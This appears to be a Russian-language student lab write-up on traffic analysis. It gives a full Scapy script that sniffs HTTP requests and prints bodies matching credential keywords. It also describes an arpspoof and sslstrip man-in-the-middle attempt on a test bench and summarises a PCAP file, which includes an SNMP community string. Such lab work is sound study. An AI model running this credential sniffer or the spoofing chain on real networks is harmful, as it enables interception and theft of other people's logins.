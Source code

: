#### Анализ трафика

##### Цель:
* Доработка скрипт packet_sniff.py
* Проанализировать PCAP файл



##### Доработанный скрипт

<details>
<summary>packetsniff.py</summary>

```

#!/usr/bin/python3

import scapy.all as scapy

from scapy.layers import http

def sniff(interface):
  scapy.sniff(iface=interface, store=False, prn=process_sniffed_packets)

def get_url(packet):
  if packet.haslayer(http.HTTPRequest):
      url = packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
      return url

def get_login_info(packet):
  if packet.haslayer(http.HTTPRequest):
      if packet.haslayer(scapy.Raw):
          load = packet[scapy.Raw].load
          #load = str(load)
          keybword = ["usr", "uname", "username", "pwd", "pass", "password"]
          for eachword in keybword:
              if eachword.encode() in load:
                  return load


def process_sniffed_packets(packet):
  if packet.haslayer(http.HTTPRequest):
      url = get_url(packet)
      print("[+] HTTP Request>>" + str(url))

      login_info = get_login_info(packet)
      if login_info:
          print("\n\n[+] Possible username and password >>" + str(login_info) + "\n\n")




sniff("eth0")
```
</summary>

</details>

##### На компьютере атакующего
<details>
<summary>Конфигурация</summary>

  ![alt-текст](/lab-9/img/kos-ifconfig.png)
</summary>


</details>

<details>
<summary>запускаем arpspoof</summary>

  ![alt-текст](/lab-9/img/arpspoof.png)
</summary>

</details>


<details>
<summary>запускаем sslstrip</summary>

  ![alt-текст](/lab-9/img/sslstrip_start.png)
</summary>

</details>

<details>
<summary>результат работы скрипта</summary>

  ![alt-текст](/lab-9/img/packetsniff.py.png)
</summary>
</details>

<details>
<summary>cat sslstrip.log</summary>

##### Видимо sslstrip не может разобрать входящие данные
  ![alt-текст](/lab-9/img/sslstrip-debug.png)
</summary>

</details>
<details>
<summary>результат pscketsniff с ручным вводом адреса</summary>

##### Если вручную забить адрес сайта http://klavogonki.ru , то Url появляется в выводе скрипта.

  ![alt-текст](/lab-9/img/packetsniff-http.png)
</summary>

</details>
##### На компьютере жертвы
<details>
<summary>Конфигурация</summary>

  ![alt-текст](/lab-9/img/client-data.png)
</summary>

</details>

<details>
<summary>site-http</summary>

##### Если вручную забить адрес сайта http://...... , то только белая страница видна

  ![alt-текст](/lab-9/img/site-http.png)
</summary>

</details>

#### Выводы по sslstrip
У меня на тестовом стенде с вновь установленной kali версии(скриншот ниже)
не удалось получить данные из https запроса при помощи sslstrip.

<details>
<summary>version</summary>

![alt-текст](/lab-9/img/kos-version.png)

</summary>  
</details>



##### Анализ файла

<details>
<summary>pcap</summary>

```

1. 192.168.121.10 сообщил что порт gi0/2 отключился.  
2. К сети подключился клиент с маком 00:21:70:e9:bb:47 и получил ip 192.168.30.11 DHCP.
3. 192.168.121.10 сообщил что gi0/2 подключен
4. 2003:51:6012:120:13 опросил  2003:51:6012:120:2 по SNMP c community n5rAD1ig314IqfioYBWw

5. 2003:51:6012:110::b15:22 соеденился по SSH к  2003:51:6012:121::2
6. 192.168.121.2 сообщил(опправил syslog) о том что пакет на соединение попало в разрешающее правило
7. 192.168.121.2 слил по tftp конфиг на 192.168.110.10
```

</summary>

</details>
